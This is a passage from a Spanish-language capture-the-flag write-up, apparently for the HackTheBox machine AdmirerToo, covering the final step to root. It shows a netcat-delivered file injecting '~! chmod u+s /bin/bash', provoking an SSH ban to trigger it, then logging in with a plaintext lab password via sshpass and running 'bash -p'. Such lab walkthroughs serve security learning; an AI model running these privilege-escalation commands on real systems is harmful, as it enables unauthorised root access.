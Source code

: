 Ahora podemos volver a nuestra maquina para esperar en la escucha en nc y pasarle un archivo que nombramos pwned que contiene lo siguiente:

```s
okjjks jafbsaf  sjfbKJSF
~! chmod u+s /bin/bash
```
Esto nos permitira darle los permisos necesarios a nuestra ip para que al conectarse pueda ejecutar comandos de root. Solo tenemos que abusar de la intruicion con ssh, para que se nos bloquee el acceso un rato y cuando pase el baneo, poder establecer la coneccion de nuevo.

Una vez establecida la conexion, bastara con ejecutar un:

```s
sshpass -p 'bQ3u7^AxzcB7qAsxE3' ssh jennifer@10.10.11.137

ls -l /bin/bash
bash -p
```

![Last reverse](/assets/images/AdmirerToo/reverse_final.png)

